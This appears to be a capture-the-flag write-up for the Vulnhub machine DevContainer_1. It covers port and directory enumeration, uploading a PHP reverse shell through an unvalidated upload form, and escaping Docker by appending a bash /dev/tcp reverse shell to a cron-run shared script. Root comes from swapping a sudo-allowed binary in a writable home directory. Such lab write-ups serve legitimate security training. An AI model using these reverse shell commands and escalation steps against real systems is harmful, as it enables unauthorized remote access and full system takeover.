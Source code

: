 ```yaml
---
title: DevContainer_1 Writeup
tags: [Docker, Vulnhub]
image: /assets/images/devcontainer_1/devcontainer_1.png
published: true
---
```


# [](#header-1)Introduction

DevContainer_1 is an easy machine created by [@0x04E1](https://twitter.com/0x04E1), on this machine we will find a page with a upload function where we will upload a PHP reverse shell, then we we will find us on a Docker container rather than the machine itself, after checking the files we will find a file that is being run every x seconds, we will add a reverse shell to it in order to get a shell on the machine, finaly we will see that we can execute a file without supplying a password, we will see that we have permissions over the directory where that file is located, so we can move it and create a reverse shell on the path of the original file and get root.

# [](#header-1)Enumeration

We start use nmap find the open ports and then make a deeper scan on those ports.

```
nmap -p- -Pn -n -T 4 192.168.56.129
nmap -sC -sV -p 80, -Pn -o scan.txt 192.168.56.129

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Freelancer - Start Bootstrap Theme
```

There is only port 80 open, so we check the website.

![](assets/images/devcontainer_1/Website.png)

Using gobuster we find some directories. `gobuster dir -u http://192.168.56.129/ -w /usr/share/wordlist/dirb/common.txt -t 50 -x txt,html,php -o busterc.txt`

![](assets/images/devcontainer_1/gobuster.png)

# [](#header-1)Gaining Access

The most interesting directory is "upload" so we enter to it.

![](assets/images/devcontainer_1/upload.png)

There says that there is a couple of allowed files, but they might not be validated so we try to upload [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). It gets upload with no problem.

![](assets/images/devcontainer_1/uploaded.png)

We configured the file to connect to us on port 54231, so we start a listener with `nc -lvp 54321` and when we open the file we get a shell.

![](assets/images/devcontainer_1/shell1.png)

# [](#header-1)Escaping from Docker

After enumating for a while we find that we are not inside the machine itself, but in a Docker container, if we go to check the source code of the website we find a directory named "Maintenan-Web-Docker".

![](assets/images/devcontainer_1/websource.png)

Inside of it we find 3 files, "maintenance.sh", "list.sh" and "out.txt". The code of maintenance.sh is:

```bash
#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh
```

And list.sh:

```bash
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

We see that maintenance.sh calls list.sh, and list.sh writes some info in out.txt, but we see something interesting, the path of the files are "/home/richard/web/Maintenance-Web-Docker/", but we are in "/var/www/html/Maintenance-Web-Docker/", so the machine must be doing volume mapping, we can guess that the container was started with `docker run -p 80:80 -v /home/richard/web/Maintenance-Web-Docker/:/var/www/html/Maintenance-Web-Docker/ <image name>`. That means that if we write in "/var/www/html/Maintenance-Web-Docker/" we will be writing inside the machine, the next important thing is "out.txt", if we check it, we see that it has some lines written, and they were written with today's date.

![](assets/images/devcontainer_1/outfile.png)

Probably there is a crontab running that executes maintenance.sh or list.sh every x time, so we move out.txt and after some time it gets created again so we know that those are being run.

![](assets/images/devcontainer_1/outagain.png)

Everything we have to do is add a reverse shell to list.sh, I like to use [one-lin3r](https://github.com/D4Vinci/One-Lin3r) to generate reverse shell one liners.

![](assets/images/devcontainer_1/onelin3r.png)

So we execute `echo ‘bash -i >& /dev/tcp/192.168.56.130/54322 0>&1’ >> list.sh` to append our reverse shell to list.sh, we check that is has been edited.

![](assets/images/devcontainer_1/newlist.png)

As before we had a listener waiting with: `nc -lvp 54322`, and after some seconds we will have our shell.

![](assets/images/devcontainer_1/shell2.png)

We can read user.txt.

![](assets/images/devcontainer_1/usertxt.png)

# [](#header-1)Privilege Escalation

We check if we can execute any command with sudo using `sudo -l`, and we get that we can execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` without supplying a password.

![](assets/images/devcontainer_1/sudotest.png)

As the path of the command indicates the file is inside our home directory.

![](assets/images/devcontainer_1/homefiles.png)

Since it is inside our home directory we can rename the directory with `mv HackTools btools`, now we create the directory "HackTools" again, and we create the file socat inside of it with a revese shell, finally we execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` and we will get our root shell and retrieve "proof.txt".

![](assets/images/devcontainer_1/proof.png)

